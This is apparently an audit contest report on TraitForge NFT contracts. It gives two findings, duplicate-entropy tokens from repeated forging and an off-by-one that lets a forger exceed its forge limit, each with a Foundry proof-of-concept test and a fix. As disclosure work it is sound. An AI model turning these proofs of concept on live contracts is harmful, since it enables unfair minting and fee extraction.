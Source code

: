 # [M-01] Forgers and mergers can create new tokens with the same entropy when they forge, breaking the uniqueness of NFTs

## Impact

NFT has to be unique, but when we list->forge, list->forge 2 or more times with the same forger token and with the same merger token, we will keep creating tokens that have the same entropy(duplicates).

This can be duplicated as much as we want until we run out of forgingCounts.

## Proof of Concept

<details>
<summary>Test case</summary>

Create the test file inside `contracts/test/`

To run the test, please use the following command: `forge test --mt testForgingCreatesADuplicateWithTheSameEntropy -vvv`

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test, console} from "../../lib/forge-std/src/Test.sol";
import "../EntityTrading/EntityTrading.sol";
import "contracts/EntropyGenerator/EntropyGenerator.sol";
import "contracts/EntityForging/EntityForging.sol";
import "contracts/NukeFund/NukeFund.sol";
import "contracts/DevFund/DevFund.sol";
import "contracts/TraitForgeNft/TraitForgeNft.sol";
import "contracts/Airdrop/Airdrop.sol";
import "contracts/Trait/Trait.sol";

contract WorkingTest is Test {
    EntityTrading public entityTrading;
    TraitForgeNft public nftContract;
    EntityForging public entityForging;
    EntropyGenerator public entropyGenerator;
    Airdrop public airdrop;
    Trait public trait;
    NukeFund public nukeFund;
    DevFund public devFund;

    address devFundOwner = makeAddr("admin");

    address dev1 = makeAddr("dev1");
    address dev2 = makeAddr("dev2");
    address dev3 = makeAddr("dev3");

    address naruto = makeAddr("naruto");
    address sasuke = makeAddr("sasuke");

    function setUp() public {
        vm.prank(devFundOwner);
        devFund = new DevFund();

        nftContract = new TraitForgeNft();
        entityForging = new EntityForging(address(nftContract));
        entityTrading = new EntityTrading(address(nftContract));
        entropyGenerator = new EntropyGenerator(address(nftContract));
        entropyGenerator.writeEntropyBatch1();
        entropyGenerator.writeEntropyBatch2();
        entropyGenerator.writeEntropyBatch3();

        trait = new Trait("Trait", "TRT", 18, 1000000 ether);
        vm.startPrank(address(nftContract));
        airdrop = new Airdrop();
        airdrop.setTraitToken(address(trait));
        vm.stopPrank();

        vm.prank(dev1);
        nukeFund = new NukeFund(address(nftContract), address(airdrop), payable(dev1), payable(dev2));
        entityTrading.setNukeFundAddress(payable(address(nukeFund)));

        nftContract.setEntityForgingContract(address(entityForging));
        (address(entityForging));
        nftContract.setEntropyGenerator(address(entropyGenerator));
        nftContract.setAirdropContract(address(airdrop));

        vm.deal(naruto, 1000 ether);
        vm.deal(sasuke, 1000 ether);

        vm.warp(2 days);
    }

    function testForgingCreatesADuplicateWithTheSameEntropy() public {
        uint256 minimumFee = 0.01 ether;

        vm.startPrank(naruto);
        uint256 forgerTokenId;
        uint256 forgePotential;
        for (uint256 i = 1; i < 10; i++) {
            nftContract.mintToken{value: 1 ether}(new bytes32[](1));
            uint256 entropy = nftContract.getTokenEntropy(i);
            // making sure the token is forger and has forgePotential more than 0
            if (nftContract.isForger(i) && uint8((entropy / 10) % 10) > 0) {
                forgerTokenId = i;
                forgePotential = uint8((entropy / 10) % 10);
                break;
            }
        }
        vm.stopPrank();

        vm.startPrank(sasuke);
        uint256 mergerTokenId;
        for (uint256 i = forgerTokenId + 1; i < 20; i++) {
            nftContract.mintToken{value: 1 ether}(new bytes32[](1));
            uint256 entropy = nftContract.getTokenEntropy(i);
            // making sure the token is merger and has mergePotential more than 0
            if (!nftContract.isForger(i) && uint8((entropy / 10) % 10) > 0) {
                mergerTokenId = i;
                break;
            }
        }
        vm.stopPrank();

        // asserting that we have a forger token
        assertEq(nftContract.isForger(forgerTokenId), true);
        // asserting that we have a merger token
        assertEq(!nftContract.isForger(mergerTokenId), true);

        vm.prank(naruto);
        entityForging.listForForging(forgerTokenId, minimumFee);
        vm.prank(sasuke);
        uint256 newTokenId = entityForging.forgeWithListed{value: minimumFee}(forgerTokenId, mergerTokenId);

        vm.prank(naruto);
        entityForging.listForForging(forgerTokenId, minimumFee);
        vm.prank(sasuke);
        uint256 newTokenId2 = entityForging.forgeWithListed{value: minimumFee}(forgerTokenId, mergerTokenId);

        console.log("forger token entropy ", nftContract.getTokenEntropy(forgerTokenId));
        console.log("merger token entropy ", nftContract.getTokenEntropy(mergerTokenId));

        uint256 newTokenEntropy = nftContract.getTokenEntropy(newTokenId);
        uint256 newTokenId2Entropy = nftContract.getTokenEntropy(newTokenId2);
        console.log("new token entropy ", newTokenEntropy);
        console.log("duplicate entropy ", newTokenId2Entropy);
        assertEq(newTokenEntropy, newTokenId2Entropy);
    }
```

</details>

## Tools Used

Manual Review
Foundry

## Recommended Mitigation Steps

https://github.com/code-423n4/2024-07-traitforge/blob/279b2887e3d38bc219a05d332cbcb0655b2dc644/contracts/TraitForgeNft/TraitForgeNft.sol#L173

Create a mechanism to check if the resulted entropy already exists.

You could limit the same forger and same merger from forging more than once, but there will still be a small chance where the math could end up with entropy that already exists.
Examples with very very simple math:
(3 + 6) / 2 = 4
(2 + 7) / 2 = 4
(5 + 4) / 2 = 4
(1 + 8) / 2 = 4

# [M-02] Forger can list his token for forging exceeding his forgePotential by 1 in EntityForging::listForForging()

## Impact

Forgers can exceed their forging limit by 1.

## Proof of Concept

<details>
<summary>Test case</summary>

Create the file inside `contracts/test`
You can run the test in foundry using `forge test --mt testForgerTokenCanListForForgeMoreThanItsForgePotentialByOne -vvv`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test, console} from "../../lib/forge-std/src/Test.sol";
import "../EntityTrading/EntityTrading.sol";
import "contracts/EntropyGenerator/EntropyGenerator.sol";
import "contracts/EntityForging/EntityForging.sol";
import "contracts/NukeFund/NukeFund.sol";
import "contracts/TraitForgeNft/TraitForgeNft.sol";
import "contracts/Airdrop/Airdrop.sol";
import "contracts/Trait/Trait.sol";

contract WorkingTest is Test {
    EntityTrading public entityTrading;
    TraitForgeNft public nftContract;
    EntityForging public entityForging;
    EntropyGenerator public entropyGenerator;
    Airdrop public airdrop;
    Trait public trait;
    NukeFund public nukeFund;

    address dev1 = makeAddr("dev1");
    address dev2 = makeAddr("dev2");
    address dev3 = makeAddr("dev3");

    address naruto = makeAddr("naruto");
    address sasuke = makeAddr("sasuke");

    function setUp() public {
        nftContract = new TraitForgeNft();
        entityForging = new EntityForging(address(nftContract));
        entityTrading = new EntityTrading(address(nftContract));
        entropyGenerator = new EntropyGenerator(address(nftContract));
        entropyGenerator.writeEntropyBatch1();
        entropyGenerator.writeEntropyBatch2();
        entropyGenerator.writeEntropyBatch3();

        trait = new Trait("Trait", "TRT", 18, 1000000 ether);
        vm.startPrank(address(nftContract));
        airdrop = new Airdrop();
        airdrop.setTraitToken(address(trait));
        vm.stopPrank();

        vm.prank(dev1);
        nukeFund = new NukeFund(address(nftContract), address(airdrop), payable(dev1), payable(dev2));
        entityTrading.setNukeFundAddress(payable(address(nukeFund)));

        nftContract.setEntityForgingContract(address(entityForging));
        (address(entityForging));
        nftContract.setEntropyGenerator(address(entropyGenerator));
        nftContract.setAirdropContract(address(airdrop));

        vm.deal(naruto, 1000 ether);
        vm.deal(sasuke, 1000 ether);

        vm.warp(2 days);
    }

    function listAndForgeWithListed(uint256 forgerToken, uint256 listFee, uint256 mergerToken) public {
        vm.prank(naruto);
        entityForging.listForForging(forgerToken, listFee);

        vm.prank(sasuke);
        entityForging.forgeWithListed{value: listFee}(forgerToken, mergerToken);
    }

    function testForgerTokenCanListForForgeMoreThanItsForgePotentialByOne() public {
        uint256 minimumFee = 0.01 ether;

        vm.startPrank(naruto);
        uint256 forgerTokenId;
        uint256 forgePotential;
        for (uint256 i = 1; i < 10; i++) {
            nftContract.mintToken{value: 1 ether}(new bytes32[](1));
            uint256 entropy = nftContract.getTokenEntropy(i);
            // making sure the token is forger and has forgePotential more than 0
            if (nftContract.isForger(i) && uint8((entropy / 10) % 10) > 0) {
                forgerTokenId = i;
                forgePotential = uint8((entropy / 10) % 10);
                break;
            }
        }
        vm.stopPrank();

        vm.startPrank(sasuke);
        uint256 mergerTokenId;
        for (uint256 i = forgerTokenId + 1; i < 20; i++) {
            nftContract.mintToken{value: 1 ether}(new bytes32[](1));
            uint256 entropy = nftContract.getTokenEntropy(i);
            // making sure the token is merger and has mergePotential more than 0
            if (!nftContract.isForger(i) && uint8((entropy / 10) % 10) > 0) {
                mergerTokenId = i;
                break;
            }
        }
        vm.stopPrank();

        // asserting that we have a forger token
        assertEq(nftContract.isForger(forgerTokenId), true);
        // asserting that we have a merger token
        assertEq(!nftContract.isForger(mergerTokenId), true);

        console.log("forge potential: ", forgePotential);
        uint256 oldForgerBalance;
        for (uint256 i = 0; i < forgePotential + 1; i++) {
            oldForgerBalance = address(naruto).balance;
            listAndForgeWithListed(forgerTokenId, minimumFee, mergerTokenId);
            // asserting if the forger received his share
            assert(oldForgerBalance < address(naruto).balance);
        }

        console.log("times forged: ", entityForging.forgingCounts(forgerTokenId));
        // asserting that we forged more times than the forgePotential
        assert(entityForging.forgingCounts(forgerTokenId) > forgePotential);
    }
}
```

</details>

## Tools Used

Manual review
Foundry tests

## Recommended Mitigation Steps

https://github.com/code-423n4/2024-07-traitforge/blob/279b2887e3d38bc219a05d332cbcb0655b2dc644/contracts/EntityForging/EntityForging.sol#L87

Simply remove `<=` and replace it with `<`.

```diff
require(
-   forgePotential > 0 && forgingCounts[tokenId] <= forgePotential,
+   forgePotential > 0 && forgingCounts[tokenId] < forgePotential,
    'Entity has reached its forging limit'
);
```
